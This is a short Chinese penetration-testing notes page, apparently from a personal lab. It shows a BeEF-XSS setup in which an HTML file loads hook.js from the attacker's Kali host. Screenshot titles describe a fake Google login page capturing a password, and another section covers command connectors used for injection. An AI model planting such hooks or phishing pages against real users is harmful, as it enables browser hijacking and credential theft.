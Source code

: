 ```yaml
---
title: 渗透测试
date: 2024-01-24 21:13:48
tags:
---
```


### beef

![beef-xss](https://raw.githubusercontent.com/20231201/123/main/beef-xss.png)

![kali界面](https://raw.githubusercontent.com/20231201/123/main/kali界面.png)

![win10打开1.php](https://raw.githubusercontent.com/20231201/123/main/win10打开1.php.png)

1.php

```txt
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script src="http://192.168.2.85:3000/hook.js"></script>
</body>
</html>
```

![google钓鱼](https://raw.githubusercontent.com/20231201/123/main/google钓鱼.png)

![win10登录](https://raw.githubusercontent.com/20231201/123/main/win10登录.png)

![kali得到密码](https://raw.githubusercontent.com/20231201/123/main/kali得到密码.png)

### 命令连接符

![linux命令连接符](https://raw.githubusercontent.com/20231201/123/main/linux命令连接符.png)

![windows命令连接符](https://raw.githubusercontent.com/20231201/123/main/windows%E5%91%BD%E4%BB%A4%E8%BF%9E%E6%8E%A5%E7%AC%A6.png)



